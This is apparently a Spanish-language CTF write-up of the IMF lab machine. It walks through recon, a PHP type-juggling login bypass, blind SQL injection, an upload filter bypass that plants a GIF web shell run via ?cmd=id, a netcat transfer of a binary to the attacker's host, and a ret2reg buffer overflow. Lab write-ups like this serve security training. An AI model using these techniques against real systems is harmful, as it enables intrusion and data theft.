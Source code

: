 # IMF

Tags: [[_infoLeakage]],[[_sqli]],[[_scripting]],[[_bypassing]],[[_webExploitation]],[[_analysis]],[[_bof]]

## Primeros pasos
(Reconocimiento).

Primero le acomodamos bien para que agarre una IP (poner modo Bridged).

Organizamos TMUX.
Hacemos un escaneo en la red para determinar la IP de la máquina.
Mediante el OUI reconocemos la máquina que vamos a atacar.

Le hacemos un ping a la máquina. (Está activa o no).
NO funciona el ICMP sobre la máquina.
Juguemos con tcping (Windows-Linux). Clonamos el repo, entramos.

<span style="color:#88c425">go build -ldflags "-s -w" .</span>
<span style="color:#ecacb6">-s -w</span> es para reducir el peso.
Nos crea tcping
<span style="color:#88c425">upx tcping</span> :    para reducir el peso.
Ya podemos hacer
<span style="color:#88c425">./tcping 192.168.0.17</span> 


Posible máquina Linux (Aunque no se determina bien).
Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.

Empezamos el escaneo con NMAP.

Buscamos codename con launchpad, un posible Ubuntu Xenial.

Puertos abiertos.

80 - HTTP Apache.

## Investigación (Intrusión)
(Reconocimiento/Enumeración).

80.
http-server-header: Apache/2.4.18 (Ubuntu).

whatweb. 
Modernizr 2.6.2.min. No lo había visto, de ahí en más nada.

Wappalizer reporta poco.

Desde la web.
Se ve un título, investigando me lleva a una web donde hay nombres de usuario, en caso de necesitarlos, los escrbiré.

Hay un lugar para contactar, mandando Email, full name, comments.
Hay usuarios y tienen correo con el dominio "imf.local", voy a contemplarlo en el /etc/hosts

Pero igual sigo enumerando y probando en donde estoy.
En el código fuente se ve la flag1. YWxsdGhlZmlsZXM= :    allthefiles

Parece que se envían los datos, pero no creo que haga algo.

Desde la web (imf.local)
Es la misma que la IP sola.

Fuzeemos URI´s.
No hay muchas.

Pensando en la flag1, veo que unos archivos tienen nombre como base64, lo junto y me dan la flag2: imfadministrator

Es una ruta, /imfadministrator
Pide username y password.
Código fuente: se Hardcodeo la contraseña dicen.

En la petición viaja nuestra cookie.
Hay que hacer pruebas y ver si los usuarios de la web son válidos, y el usuario "rmichaels" es válido.

Desde BurpSuite vamos a fuzzear el campo de password para encontrarla (Brute Force).
No va bien, así que en Python.
(Haciendo el script... (aunque es probable que no sea esa la aproximación, porque va lento)).

Si no dan las pruebas, podemos fuzzear dentro del directorio. No hay nada.

Debemos burlar el pannel de alguna manera.
Recordemos que hay una comparativa porque la contraseña está hardcodeada como decían.
Podemos probar por tipos de datos.

No ponemos <span style="color:#ecacb6">test[]</span> como password, si no que el parámetro <span style="color:#ecacb6">pass</span> lo ponemos como <span style="color:#ecacb6">pass[]</span>
Para que sea <span style="color:#ecacb6">pass[]=test</span>
Y al aplicar mal la comparativa, sin usar triple igual, pues se pueda burlar.

Esto se llama Type Junggling. Es como en php.

Obtenemos la flag3: Y29udGludWVUT2Ntcw== : continueTOcms

Hay un enlace en la web a la que entramos.
Y en la URL vemos que hay un parámetro cms.php?, hay que probarlo.

Posible LFI.
Pero vemos que no hay mucho.

Posible RFI.
Pero vemos que no hay mucho.

SQLI.
Sí se ocasiona el error, así que a darle.
Es a ciegas, hicimos un script y enumeramos toodo. (El script lo tengo guardado, pero igual se puede volver a hacer sin problemas).

No hubo credenciales o algo, si no que reportó rutas donde podemos apuntar, veamos todo:
<span style="color:#ecacb6">information_schema,admin,mysql,performance_schema,sys</span>
<span style="color:#ecacb6">DB admin tables: pages</span>

<span style="color:#ecacb6">DB admin columns tables pages: </span>id,pagename,pagedata
<span style="color:#ff2dc0">id :    admin</span>
<span style="color:#ff2dc0">pagename :    disavowlist,home,tutorials-incomplete,upload</span>
<span style="color:#ff2dc0">pagedata :    underconstruction,welcometotheimfadministra,trainingclassroomsavailable,hdisavowedlisthimgs</span>

Hay uno donde hay un QR, lo escaneamos en la web. Le sacamos captura.

Buscamos
qr online imagen

Sacamos una captura.
Vemos la cuarta flag, es el nombre de un archivo.php -> <span style="color:#ecacb6">uploadr942.php
</span>
Si entramos a 
<span style="color:#ecacb6">http://imf.local/imfadministrator/uploadr942.php</span>
Vemos una subida de archivos.

Aprovechamos la subida de archivos.
Uy, a parte de detectar la extensión, aplica algo y se ve que detecta que hay una función "exec" de PHP.
He de suponer que lo detecta también si hay shellexec, etc.

Podemos no usar ese tipo de funciones.
De primeras podría rular, pero no tendría sentido subirlo como imagen, interceptemos con BurpSuite para ver qué tipo de extensión PHP soporta. Y también extensiones de imágenes.
Es probar también a cambiar el conten-type al de imágenes.

También en la misma petición podemos poner los magic numbers, GIF8; PNG; etc.

Vemos cositas cuando son imágenes, lo mismo que veíamos en la web cuando subíamos una imagen con código php. Así que podemos determinar que funciones de ejecución no pueden haber.
Las imágenes nos ponen que la data es inválida, así que le pongo GIF8; y pa deentro.
Vemos la respuesta y hay como identificadores, supongo que los nombres de los archivos.

Dependiendo de la extensión que se probó, esa le añadimos, vemos cuál se puede llegar a interpretar, en este caso .gif, usamos el parámetro y pa deeeentro.

<span style="color:#ecacb6">http://imf.local/imfadministrator/uploads/373b1d428080.gif?cmd=id</span>
Así quedó.
Ganamos acceso al sistema.


## Escalada

Enumerar todo el sistema.
Efectivamente, Ubuntu Xenial.

Podemos ver la flag 5: <span style="color:#07b4f2">flag5{YWdlbnRzZXJ2aWNlcw==}</span>
<span style="color:#ecacb6">agentservices</span>

Hay unos archivos en /boot interesantes.
Veo una password cifrada. Pero no se crackea.

Pueden haber puertos que se abren hacia afuera, pero internamente pueden haber otros, esto porque "agentservices" me suena a algo de servicios.

Con netsat -nat :    veo un puerto, y me conecto
nc localhost 7788

Nos pide un ID.
Así que busquemos el binario para ver su comportamiento.
Vemos el path y nos vamos a las rutas para filtrar y encontrar el binario.

Está como <span style="color:#ecacb6">/usr/local/bin/agent</span>
<span style="color:#88c425">./agent</span> :    lo ejecuto y es <span style="color:#07b4f2">el mismo</span>.
Con <span style="color:#ff2dc0">ltrace</span> puedo ver con qué cadena se está comparando, y sí, ese es el ID.

Una opción nos hace algo, pero muestra nuestra cadena por pantalla.
Podemos intentar ocasionar un Buffer Overflow.
Y sí, se ocasiona un Segmentation fault en un apartado del programa.

Nos lo transferimos.
Vamos a la ruta del binario.

En máquina atacante
<span style="color:#88c425">nc -nlvp 443 > agent</span> 

Máquina víctima
<span style="color:#88c425">nc 192.168.0.13 443</span> < <span style="color:#88c425">agent </span>

Y a empezar la metralla.
El binario se corre como servicio.
BOF. 
Aplicamos un [[ret2reg]].
Estas son las notas que fui tomando:
![[Pasted image 20240721145708.png]]

Este es el script que hice (en máquina víctima):
![[Pasted image 20240721145739.png]]

Solo queda ponerse en escucha y pa deeeeentro (Obtenemos la 6ta flag).
